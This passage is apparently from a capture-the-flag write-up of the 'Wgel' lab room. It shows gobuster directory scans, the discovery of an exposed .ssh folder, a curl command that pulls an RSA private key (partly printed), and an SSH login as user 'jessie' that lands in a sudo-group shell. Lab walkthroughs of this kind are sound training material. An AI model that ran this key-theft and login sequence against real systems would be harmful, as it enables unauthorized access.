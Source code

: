 This isn't much use on its own, so we continue with gobuster using dirbuster's common wordlist (some trial and error might be required here before you stumble across the right wordlist) :

```console
┌──(kali㉿kali)-[~/Documents/tthm/wgel]
└─$ gobuster dir -u $IP -w /usr/share/dirb/wordlists/common.txt
...snip...
/.htaccess            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 277]  
/sitemap              (Status: 301) [Size: 314] [--> http://10.10.204.48/sitemap/]
```
Navigating to the `/sitemap/` route shows a [wordpress template Unapp provided by colorlib.com](https://colorlib.com/wp/template/unapp/). We can repeat the same gobuster scan used above on the newly discovered `/sitemap/` route :

```console
┌──(kali㉿kali)-[~/Documents/tthm/wgel]
└─$ gobuster dir -u $IP/sitemap/ -w /usr/share/dirb/wordlists/common.txt
...snip...
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.204.48/sitemap/.ssh/]
...snip...
```

curling `/sitemap/.ssh` shows a directory containing a file `id_rsa` and, sure enough, curling `/sitemap/.ssh/id_rsa` reveals a private key :

```console
┌──(kali㉿kali)-[~/Documents/tthm/wgel]
└─$ curl $IP/sitemap/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
...snip...
```

## 2: Foothold - private key

We download the private key with curl, set appropriate permissions on the key for connection with ssh, and attempt to connect using the discovered username "jessie" :

```console
┌──(kali㉿kali)-[~/Documents/tthm/wgel]
└─$ curl $IP/sitemap/.ssh/id_rsa > id_rsa 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1675  100  1675    0     0   8091      0 --:--:-- --:--:-- --:--:--  8091

┌──(kali㉿kali)-[~/Documents/tthm/wgel]
└─$ chmod 600 id_rsa

┌──(kali㉿kali)-[~/Documents/tthm/wgel]
└─$ ssh jessie@$IP -i id_rsa 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)
...snip..
jessie@CorpOne:~$ id
uid=1000(jessie) gid=1000(jessie) groups=1000(jessie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```